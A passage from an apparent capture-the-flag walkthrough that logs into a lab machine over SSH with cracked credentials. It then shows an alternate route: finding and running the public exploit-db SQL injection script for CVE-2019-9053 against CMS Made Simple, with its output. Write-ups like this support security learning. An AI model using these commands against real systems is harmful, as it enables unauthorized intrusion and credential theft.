 	Password found!

* ### SSH Login (user/pass: mitch/secret)

	> ssh -p 2222 mitch@$IP

	Login successful! Shell obtained.


<br>

## Alternate approach (`exploit-db`):

We can find the username and password using exploit-db's SQL Injection script.

* ### Finding the exploit

	> searchsploit --cve 2019-9053

	```
	----------------------------------------------------- ---------------------
 	Exploit Title                                        |  Path
	----------------------------------------------------- --------------------- 
	CMS Made Simple < 2.2.10 - SQL Injection             | php/webapps/46635.py
	----------------------------------------------------- --------------------- 
	Shellcodes: No Results
	```

	Copying the script to the current directory

	> searchsploit -m php/webapps/46635.py

	The exploit can also be downloaded from the [Exploit-DB](https://www.exploit-db.com/exploits/46635) website.

* ### Execution

	> python 46635.py -u http://$IP/simple/ --crack -w /usr/share/wordlists/rockyou.txt

	```
	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```
	
**NOTE** - The exploit from exploit-db has gotten relatively old and hence this approach requires a loadfull of environment setup such as the explicit need of Python2 (most modern linux operating systems come with Python3 and doesn't allow a direct installation od Python2 as it is deprecated), pip2, and hence all other dependencies of Python2 and pip2. Also, this exploit takes comparatively more time in grabbing the username and password, whereas the initial approach does it in seconds (as the username can be guessed easily).


<br>

## Exploring current shell and file system:
